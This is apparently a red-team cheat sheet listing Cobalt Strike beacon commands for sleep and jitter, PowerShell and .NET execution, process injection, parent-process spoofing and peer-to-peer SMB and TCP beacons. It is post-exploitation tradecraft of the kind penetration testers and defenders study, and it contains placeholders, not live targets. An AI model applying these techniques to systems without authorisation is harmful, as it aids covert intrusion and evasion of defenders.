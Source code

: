 <p align="center">
  <img width="500" height="100" src="https://github.com/bigb0sss/RedTeam/blob/master/CobaltStrike/cs_logo.png">
</p>

## Command References

### Beacons
#### Sleep
```css
sleep 60 50                                 ; Sleep 60 sec with 50% of jitter (Call back between 30 to 60 secs randomly) 
```

#### Command Execution
##### Default
```css
run [command]
```
##### powershell.exe
```css
powershell-import [/path/to/your.ps1]       ; Running it from your localhost
powershell [cmdlet] [args]
```
##### powerpick (Using PS w/o powershell.exe)
```css
powrepick [cmdlet] [args]
```

##### psinject (Using PS within another process)
```css
psinject [PID] [x86|x64] [cmdlet] [args]
```

##### .NET
```css
execute-assembly [/path/to/your.exe]        ; Running it from your localhost
```

##### cmd.exe
```css
shell [command] [args]
```

#### Session Passing
```css
spawn [x86|x64] [Listener]
inject [PID] [x86|x64] [Listener]
```

#### Parent Process Modification
```css
ppid [Choice of your parent process (e.g., iexplore.exe)]
spawnto [x86|x64] [New parent process]
```

#### SMB Beacn
```css
spawn [SMB-Listner-Name]                    ; Spawning a peer-to-peer ("P2P") SMB beacon 
inject [PID] [x86|x64] [SMB-Listner-Name]   ; Useful when trying to spawn P2P beacon as different user context
```

#### TCP Beacn
```css
spawn [TCP-Listner-Name]                    ; Spawning a peer-to-peer ("P2P") TCP beacon 
                                            ; TCP beacons can be also run locally by clicking "Bind to localhost only" on GUI
inject [PID] [x86|x64] [TCP-Listner-Name]   ; Useful when trying to spawn P2P beacon as different user context
```
